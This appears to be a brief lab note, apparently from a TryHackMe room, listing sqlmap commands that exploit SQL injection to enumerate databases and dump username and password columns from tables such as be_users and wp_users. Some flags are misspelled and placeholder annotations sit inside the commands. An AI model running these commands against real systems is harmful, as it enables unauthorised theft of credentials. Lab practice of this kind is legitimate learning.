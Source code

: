 Copy request as curl and use it to run sqlmap
```bash
sqlmap 'http://api.vulnnet.thm/vn_internals/api/v2/fetch/?blog=3' ...
--tables
-D vn_admin(username) -T be_users(tablename) -C username,password --dump
```
```bash
-D blog -T users --colums
-D blog -T users --dump
```

Create file with the request in it
req.txt

Check the db and get the tables
```bash
sqlmap -r req.txt --batch

sqlmap -r req.txt --batch --dbms=mysql -tables

sqlmap -r req.txt --dbms=mysql -D wordpress(database name) -T wp_users(table) --dump
```


[[awk]]
